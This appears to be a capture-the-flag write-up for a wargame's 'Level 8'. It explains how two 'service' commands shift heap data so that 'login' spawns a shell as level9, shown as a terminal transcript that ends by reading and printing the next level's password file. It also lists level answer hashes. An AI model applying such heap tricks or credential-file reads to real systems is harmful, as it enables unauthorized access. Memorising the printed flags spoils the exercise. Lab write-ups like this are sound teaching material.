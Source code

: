## Level 8

level8:5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9

The program accepts user input, and expects one of four value:

* `auth `: Allocates memory for the variable `auth`.
* `service`: Allocates memory for the variable `service`.
* `reset`: Frees the variable `auth`
* `login`: If the memory auth+0x20 is not null, it calls `system("/bin/sh")`

Each time we use an instruction, the address of `auth` and `service` are printed.
```
$ ./level8
(nil), (nil)
auth
0x804a008, (nil)
service
0x804a008, 0x804a018
```

We can see that `auth` and `service` are 16 bytes apart, so if we use `service` instruction twice
we will be able to modify the address auth+0x20, and get a shell as the user `level9`.

Exploit:
```
$ ./level8
(nil), (nil)
auth
0x804a008, (nil)
service
0x804a008, 0x804a018
service
0x804a008, 0x804a028
login
$ whoami
level9
$ cat /home/user/level9/.pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```
